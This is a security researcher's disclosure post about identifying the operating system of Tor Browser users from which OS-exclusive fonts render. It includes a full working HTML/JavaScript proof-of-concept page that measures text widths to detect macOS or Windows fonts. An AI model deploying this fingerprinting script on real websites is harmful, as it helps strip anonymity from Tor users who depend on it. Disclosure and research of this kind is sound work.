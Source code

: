 ```yaml
---
layout: content
title: 'Detecting Tor Browser platform based on exclusive fonts rendering'
description: 'Through the rendering of some specific Fonts, I discovered that it is possible to identify operating system from a user behind Tor and after reporting this to the Tor Project I was told that they were already aware of the problem and there are already some implementations to minimize the impact of this vulnerability.'
og_image: https://heitorgouvea.me/images/publications/tor-detect-platform/tor-browser-macos.png
---
```


### Summary

Through the rendering of some specific Fonts, I discovered that it is possible to identify operating system from a user behind Tor and after reporting this to the Tor Project I was told that they were already aware of the problem and there are already some implementations to minimize the impact of this vulnerability.

---

### Description

The Tor Browser[¹](#references) is based on Firefox, with its peculiarities and promises of privacy/digital anonymity[²](#references), in addition to all engineering to hide the IP from a user, Tor also promises to combat identifications that are linked to the operating system, such for example: techniques that use JavaScript to capture the screen size and identify a unique feature of it, among others.

However, it's possible to find out the operating system of a person using Tor via a technique that makes use of Fonts "exclusive" to some operating systems.

For example, the font “Lucida Grande” is one of them, which by default is only installed on MacOS, so when an HTML page tries to render it and is successful it can be concluded that that user is using “Tor on a MacOS”, already an example to identify users using “Tor on Windows” would be the font “MS Gothic” among many other examples.

After reporting this problem, I was told that the Tor Project is already aware[³](#references) of all of this, and some implementations are already present in the current version of Tor to reduce the impact of this vulnerability and there are also plans for the future so that it ceases to exist for complete. More information about this can be found at: [https://2019.www.torproject.org/projects/torbrowser/design/](https://2019.www.torproject.org/projects/torbrowser/design/) [⁴](#references)

---

### Proof of Concept

Exploit:

```html
<html>
    <head>
        <title>PoC Fingerprint</title>
        <meta charset="utf-8"/>
        <style type="text/css">
            body {
                font-family: "Lucida Grande";
            }
        </style>
    </head>
    <body>
        <h1>Hello World</h1>
    </body>
    <script>
        (function (document) {
            var width;
            var body = document.body;
            var container = document.createElement("span");

            container.innerHTML = Array(100).join("wi");
            container.style.cssText = [
                "position: absolute",
                "width: auto",
                "font-size: 128px",
                "left: -99999px"
            ].join(" !important;");

            var getWidth = function (fontFamily) {
                container.style.fontFamily = fontFamily;

                body.appendChild(container);
                width = container.clientWidth;
                body.removeChild(container);

                return width;
            };

            var monoWidth  = getWidth("monospace");
            var serifWidth = getWidth("serif");
            var sansWidth  = getWidth("sans-serif");

            window.isFontAvailable = function (font) {
                return monoWidth !== getWidth(font + ",monospace") ||
                sansWidth !== getWidth(font + ",sans-serif") ||
                serifWidth !== getWidth(font + ",serif");
            };
        })(document);

        if (isFontAvailable("Lucida Grande")) {
            alert("You are using the MacOS plataform");
        }

        else if (isFontAvailable("MS Gothic")) {
            alert("You are using the Windows plataform");
        }

        else {
            alert("You are not using the MacOs/Windows Platform");
        }
    </script>
</html>
```

If you prefer, you can see a live demo [clicking here.](https://heitorgouvea.me/public/payloads/tor-browser-fonts-exploit.html) User identification using Tor on MacOS:

![](/images/publications/tor-detect-platform/tor-browser-macos.png)

User identification using Tor on Windows: 

![](/images/publications/tor-detect-platform/tor-browser-windows.jpeg)

There is a margin of error in this technique, as a user can install fonts that are not the default for an operating system, but an attacker can make use of even more esoteric fonts to minimaze that margin of error.

---

### Impact

With this technique it is possible to identify the operating system of a user who is using Tor. On a website with low traffic volume, this distinction is enough to exclusively track users, already for a website with high traffic, allows you to track users in a unique way in a short period of time.

---

### Conclusion

This vulnerability can be combined with others to develop a profile unique enough to track users on Tor. However, it is reassuring to know that the team behind Tor Browser is extremely agile and is very close to the research community, this certainly helps a lot to minimize the risks around this vulnerability.

---

### References

- 1. [https://www.torproject.org/](https://www.torproject.org/)
- 2. [https://en.wikipedia.org/wiki/Tor_(anonymity_network)](https://en.wikipedia.org/wiki/Tor_(anonymity_network))
- 3. [https://2019.www.torproject.org/projects/torbrowser/design/](https://2019.www.torproject.org/projects/torbrowser/design/)
- 4. [https://gitlab.torproject.org/tpo/applications/tor-browser/-/issues/18097](https://gitlab.torproject.org/tpo/applications/tor-browser/-/issues/18097)
- 5. [https://www.samclarke.com/javascript-is-font-available/](https://www.samclarke.com/javascript-is-font-available/)